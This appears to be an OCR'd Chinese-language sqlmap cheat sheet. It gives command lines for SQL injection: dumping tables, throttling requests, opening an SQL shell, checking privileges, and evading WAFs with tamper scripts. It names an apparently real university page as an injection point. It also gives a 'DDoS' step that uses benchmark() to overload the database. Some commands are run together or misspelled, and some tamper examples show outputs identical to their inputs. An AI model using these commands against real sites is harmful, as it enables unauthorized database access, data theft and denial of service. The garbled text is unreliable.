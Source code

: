 语句sqlmap -u "http://www.xxxxxxxxxx.org/jsj/DownloadShow.asp" --cookie "id=9" --table --level 2



### 请求Delay 

注入点：http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html
参数 --delay --safe-freq
sqlmap --dbs -u http://www.target.com/ndex.php/Index/view/id/40*.html --delay 0.5  //延时0.5秒

sqlmap --dbs -u http://www.target.com/ndex.php/Index/view/id/40*.html --safe-freq  //请求2次



## Sqlmap DDoS attack

sqlmap -u http://www.XXXXXX.com/id=2 --sql-shell
获得一个即时shell，执行

select benchmark(99999999999,0x70726f62616e646f70726f62616e646f70726f62616e646f)



#### sqlmap查看 权限及可执行函数

sqlmap -u http://www.target.com/id=2 --privilegesTamper文件夹









### Sqlmap绕过WAF防火墙

sqlmap -u http://XXXXXX/news.php?id=1 -v 3 --dbs  --batch --tamper "space2morehash.py"





sqlmap的绕过脚本的解释：

##### apostrophemask.py UTF-8编码

- Example:

- Input: AND '1'='1'

    * Output: AND ＇1＇=＇1＇

##### postrophenullencode.py unicode编码

Example:

* Input: AND '1'='1'
    * Output: AND '1'='1'

##### appendnullbyte.py 添加

Example:

* Input: AND 1=1
    * Output: AND 1=1
    Requirement:
    * Microsoft Access
